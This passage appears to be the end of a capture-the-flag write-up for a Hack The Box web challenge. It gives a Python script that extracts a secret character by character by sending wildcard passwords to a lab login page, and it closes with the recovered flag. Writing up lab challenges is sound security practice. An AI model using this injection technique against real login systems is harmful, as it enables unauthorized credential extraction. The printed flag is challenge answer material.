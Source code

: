 And the script to guess the password:

```
import requests, string

url = "http://138.68.167.82:31488/login"
headers = {"UserAgent" : "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36"}


chars = string.ascii_letters
chars += ''.join(['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '`', '~', '!', '@', '$', '%', '&', '-', '_', "'"])

cnt = 0
flag = "HTB{"

while True:
    if cnt == len(chars):
        print(flag + "}")
        break

    password = flag + chars[cnt] + "*}"
    print(password)

    data = {"username" : "Reese", "password" : password}
    response = requests.post(url, headers = headers, data = data)
    
    if (response.url != url + "?message=Authentication%20failed"):
        flag += chars[cnt]
        cnt = 0
    else:
        cnt += 1
```

> Flag: `HTB{d1rectory_h4xx0r_is_k00l}`